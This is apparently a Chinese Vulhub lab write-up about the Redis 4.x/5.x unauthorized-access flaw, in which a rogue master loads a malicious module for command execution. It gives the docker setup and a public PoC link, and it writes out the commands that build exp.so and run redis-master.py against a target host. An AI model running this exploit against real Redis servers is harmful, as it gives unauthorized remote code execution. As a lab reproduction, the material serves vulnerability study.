

# Redis 4.x/5.x 未授权访问漏洞

## 漏洞描述

Redis未授权访问在4.x/5.0.5以前版本下，我们可以使用master/slave模式加载远程模块，通过动态链接库的方式执行任意命令。

参考链接：

- https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

## 环境搭建

Vulhub执行如下命令启动redis 4.0.14：

```
docker-compose up -d
```

环境启动后，通过`redis-cli -h your-ip`即可进行连接，可见存在未授权访问漏洞。

## 漏洞复现

redis未授权访问：


使用如下POC即可直接执行命令https://github.com/vulhub/redis-rogue-getshell：

```
$ cd RedisModulesSDK/
$ make
$ python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

